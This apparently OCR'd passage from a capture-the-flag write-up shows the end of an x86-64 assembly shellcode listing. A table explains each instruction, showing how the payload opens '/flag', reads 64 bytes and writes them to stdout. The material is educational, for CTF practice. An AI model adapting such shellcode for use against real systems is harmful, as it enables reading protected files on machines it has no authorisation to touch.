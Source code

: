 ```nasm
    syscall

    ; Exit syscall
    xor     eax, eax                         ; clear eax
    mov     al, 60                           ; syscall number for exit()
    xor     edi, edi                         ; exit(0)
    syscall
```

---

## 💡 Explanation of Every Step

| Instruction                   | Purpose                                                             |
| ----------------------------- | ------------------------------------------------------------------- |
| `xor rax, rax`                | Clears `rax` to 0. Used both for syscall numbers and pushing nulls. |
| `push rax`                    | Stack alignment and buffer use (no effect on `/flag`).              |
| `mov rbx, 0x67616c662f2f2f2f` | Constructs string `"////flag"` in reverse (little-endian).          |
| `push rbx`                    | Pushes the fake "/flag" onto the stack.                             |
| `mov rdi, rsp`                | Sets `rdi` to point to the string `/flag`.                          |
| `mov al, 2`                   | `open()` syscall number (on x86\_64).                               |
| `xor rsi, rsi`                | `rsi` = 0 → O\_RDONLY flag                                          |
| `xor rdx, rdx`                | `rdx` = 0 → mode is ignored in O\_RDONLY                            |
| `syscall`                     | Executes `open("/flag", 0, 0)`                                      |
| `mov rdi, rax`                | `rdi` = returned file descriptor                                    |
| `mov rsi, rsp`                | `rsi` = buffer to read into (stack)                                 |
| `mov dl, 0x40`                | `rdx` = 64 bytes                                                    |
| `xor eax, eax`                | syscall number = 0 (read)                                           |
| `syscall`                     | Executes `read(fd, buf, 64)`                                        |
| `xor edi, edi` / `inc edi`    | Sets `edi` = 1 (stdout)                                             |
| `xor eax, eax` / `inc eax`    | Sets `eax` = 1 (write)                                              |
| `syscall`                     | Executes `write(1, buf, 64)`                                        |
| `mov al, 60`                  | syscall number for `exit()`                                         |
| `xor edi, edi`                | exit code = 0                                                       |
| `syscall`                     | Exits cleanly                                                       |

---

